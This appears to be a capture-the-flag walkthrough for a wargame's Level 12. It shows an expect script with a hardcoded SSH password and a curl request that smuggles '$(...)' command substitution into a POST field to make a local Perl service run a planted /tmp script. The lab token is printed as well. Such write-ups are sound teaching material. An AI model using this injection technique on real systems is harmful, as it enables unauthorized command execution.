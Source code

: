# Level 12
- In the shell of your choice run the script attached or follow the steps bellow using your VM IP address to get the flag, also root privileges and some dependencies may be needed to install before
	```sh
	$ chmod u+x script.sh
	$ ./script.sh
	$ cat script.sh
	#!/usr/bin/expect -f
	set ip 192.168.1.103
	spawn ssh -o "StrictHostKeyChecking no" level12@$ip -p 4242 "mkdir -p /tmp/FLAG ; cd /tmp/FLAG ; rm -rf ./* ; chmod 777 . ; echo \"\\\`getflag > /tmp/FLAG/token\\\`\" > SCRIPT ; chmod 777 SCRIPT ; curl -s 127.0.0.1:4646 -d \"x=\\\$\(/*/FLAG/SCRIPT\)\" ; cat /tmp/FLAG/token"
	expect "sword:"
	send "fa6v5ateaw21peobuub8ipe6s\r"
	interact
	```
- List content of the home directory
	```sh
	$ ls -l
	```
- View content of the `level12.pl` file
	```sh
	$ cat level12.pl
	```
- Make `FLAG` directory in `/tmp` location
	```sh
	$ mkdir -p /tmp/FLAG
	$ rm -rf /tmp/FLAG/*
	```
- Create `SCRIPT` file in that directory
	```sh
	$ echo "\`getflag > /tmp/FLAG/token\`" > /tmp/FLAG/SCRIPT
	```
- Change access mode to those directory and file to `777`
	```sh
	$ chmod 777 /tmp/FLAG
	$ chmod 777 /tmp/FLAG/SCRIPT
	```
- Run the following commands to get the flag
	```sh
	$ curl 127.0.0.1:4646 -d "x=\$(/*/FLAG/SCRIPT)"
	$ cat /tmp/FLAG/token
	```
- With the token provided `g1qKMiRpXf53AWhDaU7FEkczr` switch to the next user level
	```sh
	$ su level13
	Password: g1qKMiRpXf53AWhDaU7FEkczr
	```
